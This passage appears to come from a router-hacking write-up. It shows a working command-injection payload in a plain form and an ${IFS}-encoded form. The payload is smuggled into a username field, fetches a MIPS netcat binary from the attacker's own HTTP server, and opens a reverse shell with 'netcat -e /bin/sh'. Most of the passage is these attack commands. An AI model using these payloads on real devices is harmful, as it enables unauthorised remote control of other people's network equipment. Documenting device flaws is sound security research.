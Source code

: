 We can run `mount` to see that all partitions are `ro` (read-only) or `tmpfs`, so we cannot write files or if we can they are stored in-RAM and are deleted after re-boot.

Let's download the MIPS compiled `netcat`.

```
wget https://github.com/darkerego/mips-binaries/raw/refs/heads/master/netcat
```

Then let's start a python server to host our payload.

```
python3 -m http.server 9090
```

Now we will use the exact same backdoor payload from `ZXHN H168N`. This time the IP my laptop got assigned is `192.168.1.5`.

Command injection payload:
```sh
user;sh -c 'cp /bin/ls /tmp/netcat;wget http://192.168.1.5:9090/netcat -O /tmp/a;cat /tmp/a>/tmp/netcat;rm /tmp/a;/tmp/netcat 192.168.1.5 4545 -e /bin/sh';echo 
```

With encoded spaces:
```
user;sh${IFS}-c${IFS}'cp${IFS}/bin/ls${IFS}/tmp/netcat;wget${IFS}http://192.168.1.5:9090/netcat${IFS}-O${IFS}/tmp/a;cat${IFS}/tmp/a>/tmp/netcat;rm${IFS}/tmp/a;/tmp/netcat${IFS}192.168.1.5${IFS}4545${IFS}-e${IFS}/bin/sh';echo${IFS}
```

![Backdoor2](./images/backdoored2.png)

(Same explanation as before):

